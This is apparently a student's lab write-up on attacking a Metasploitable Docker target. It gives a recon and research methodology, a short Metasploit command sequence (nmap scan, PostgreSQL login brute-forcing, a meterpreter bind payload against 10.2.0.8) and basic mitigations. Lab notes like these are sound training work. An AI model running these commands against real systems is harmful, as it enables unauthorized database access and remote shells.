

# 07 - Metasploitable Docker 2
## Methodology 
1. Reconnaisance
    - OS Version
    - Port scanning
    - Network topology
    - services (versions, name)
    - active maschines
2. Basic actions
    - Known password testing
    - Known 
   - > If successful run RCE  
3. Research
    - search for knwon vulerabilities with a scanner
    - search on github issues
    - search on https://cve.mitre.org/cve/search_cve_list.html
    - search on 
## Attack

```
service postgresql start
msfdb init
msfconsole
db_nmap -A -p 0-10000 10.2.0.8
search auxiliary/scanner/postgres
use auxiliary/scanner/postgress/postgres_login
set RHOST 10.2.0.8
set PORT 8181
set payload linux/x86/meterpreter/bind_tcp
run
```



## Mitigation
- Change PostgreSQL default Password
- Only allow local connections
- Deny access by firewall